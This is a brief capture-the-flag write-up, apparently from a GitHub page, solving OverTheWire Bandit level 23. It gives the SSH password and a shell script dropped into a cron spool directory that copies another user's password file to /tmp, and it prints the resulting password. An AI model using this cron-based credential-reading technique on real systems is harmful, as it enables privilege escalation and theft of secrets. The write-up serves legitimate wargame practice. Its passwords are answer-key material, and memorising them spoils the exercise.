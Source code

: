 # bandit 23

    # ssh bandit23@bandit.labs.overthewire.org
    password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

Create a shell script in /var/spool/bandit24.

    # cat shell.sh

    #!/bin/bash
    mkdir /tmp/viiiiing
    cat /etc/bandit_pass/bandit24 > /tmp/viiiiing/pass

    # chmod 777 shell.sh
    # cat /tmp/viiiiing/pass
    UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

